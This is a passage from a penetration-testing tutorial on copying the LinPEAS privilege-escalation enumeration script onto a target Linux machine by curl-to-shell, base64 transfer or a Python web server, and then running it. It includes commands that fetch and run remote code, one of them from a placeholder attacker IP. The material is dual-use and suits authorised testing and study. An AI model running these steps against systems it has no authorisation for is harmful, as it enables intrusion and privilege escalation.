 ```bash
# Using curl
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Using wget
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

2. **Base64 Encoding** (for non-binary transfer):

```bash
# On your attack machine
base64 -w0 linpeas.sh > linpeas.b64

# On the target machine
cat > linpeas.b64 << "EOF"
[Paste base64 content here]
EOF
base64 -d linpeas.b64 > linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

3. **Using a Web Server** (for local network transfer):

```bash
# On your attack machine
cd /path/to/linpeas
python3 -m http.server 8000

# On the target machine
wget http://[attack-ip]:8000/linpeas.sh -O linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### Basic Usage

LinPEAS offers several execution options:

```bash
# Standard execution
./linpeas.sh

# Save output to a file
./linpeas.sh | tee linpeas_results.txt

# Check a specific set of vulnerabilities
./linpeas.sh -c

# Run with more advanced checks
./linpeas.sh -a
```

